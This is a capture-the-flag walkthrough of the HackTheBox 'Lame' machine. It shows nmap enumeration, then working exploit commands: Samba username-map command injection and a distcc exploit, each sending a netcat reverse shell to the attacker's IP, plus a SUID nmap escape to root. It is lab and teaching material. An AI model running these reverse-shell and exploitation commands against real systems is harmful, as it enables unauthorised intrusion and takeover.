

# HackTheBox Lame

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)


## Information Gathering

### Openning Services

To scan all open ports in WinterMute I run nmap with -p- options and enum service at each port.

```
┌──(Hades㉿10.10.14.5)-[0.3:12.3]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.3

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.3 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 21,22,139,445,3632

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.3 -p21,22,139,445,3632
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 11:07 EDT
Nmap scan report for 10.10.10.3
Host is up (0.25s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                      
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h14m22s, deviation: 2h49m46s, median: 14m19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-03-31T11:22:07-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.03 seconds
```

### vsftpd 2.3.4

Anonymous access

```
┌──(Hades㉿10.10.14.4)-[2.1:15.9]~
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> quit
221 Goodbye.
```

Searchsploit

```
┌──(Hades㉿10.10.14.4)-[2.7:16.6]~
└─$ searchsploit vsftpd 2.3.4
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Met | unix/remote/17491.rb
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Samba smbd 3.0.20-Debian

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.3                                                                                                                                                        
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
smbclient -L 10.10.10.3
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Access to folder `tmp` using `smbclient` but the server disconnect this session.

```
┌──(Hades㉿10.10.14.5)-[0.9:13.9]~
└─$ smbclient //10.10.10.3/tmp
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Searchsploit

```
┌──(Hades㉿10.10.14.5)-[0.7:13.5]~/walkthrough/hackthebox/lame
└─$ searchsploit Samba 3.0.20
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
<snip>
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Ex | unix/remote/16320.rb
<snip>
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### distccd v1 ((GNU) 4.2.4

Check if it's vulnerable to CVE-2004-2687 to execute arbitrary code: [3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc)

```
┌──(Hades㉿10.10.14.5)-[0.7:13.9]~
└─$ sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 22:17 EDT
Nmap scan report for 10.10.10.3
Host is up (0.25s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html

Nmap done: 1 IP address (1 host up) scanned in 1.62 seconds
```

## Foothold

### vsftpd-2.3.4-exploit

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

Base on `searchsploit`, we know the vsftpd 2.3.4 service had a critical vul allowing attacker to execute command in the server.


<a href='https://github.com/ahervias77/vsftpd-2.3.4-exploit' target="blank">Backdoor Command Execution</a>, this exploit trigger vsftpd 2.3.4 backdoor on port 6200 and prints supplied command's output. Payload: `USER letmein:)`.

Execute payload

```
python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
```

Check open port: 6200

```
nmap -p 6200 10.10.10.3 -Pn
```


Because port 6200 is not open, then we don't have a backdoor in Lame server.

### CVE-2007-2447

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

<a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>. The payload execute command \` in the username.

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
smbmap -u '/=`nc -e /bin/bash 10.10.14.4 4444`' -H 10.10.10.3

python3 samba_rce_CVE-2007-2447.py 10.10.10.3 'nc -nv 10.10.14.5 443 -e /bin/sh'
```

=== "smb command"

	

=== "samba_rce_CVE-2007-2447.py"

	

### CVE-2004-2687

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)

Based on nmap script, I identify distcc-cve2004-2687 and search the public exploit <a href='https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855' target="blank">DistCC Daemon - Command Execution (Python)</a>

Execute payload with ping command

```
┌──(Hades㉿10.10.14.4)-[1.5:16.3]~
└─$ python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "ping -c 2 10.10.14.4"
[OK] Connected to remote service

--- BEGIN BUFFER ---

PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=235 ms
64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=234 ms

--- 10.10.14.4 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1005ms
rtt min/avg/max/mdev = 234.636/235.127/235.618/0.491 ms


--- END BUFFER ---

[OK] Done.
```

Create a listener in Kali machine.

``` bash
sudo nc -nvlp 4444
```

Get reverse shell

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 4444 -e /bin/sh"
```


## Privilege Escalation

### Nmap SUID

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/lame)
	
Using [LinEnum.sh](https://github.com/rebootuser/LinEnum) to audit Lame server, I saw nmap had SUID.

Exploit with [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#shell)

```
daemon@lame:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/nmap
<snip>
```

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 (http://insecure.org)
```

Execute nmap to get root

```
daemon@lame:/root$ /usr/bin/nmap --interactive
/usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
```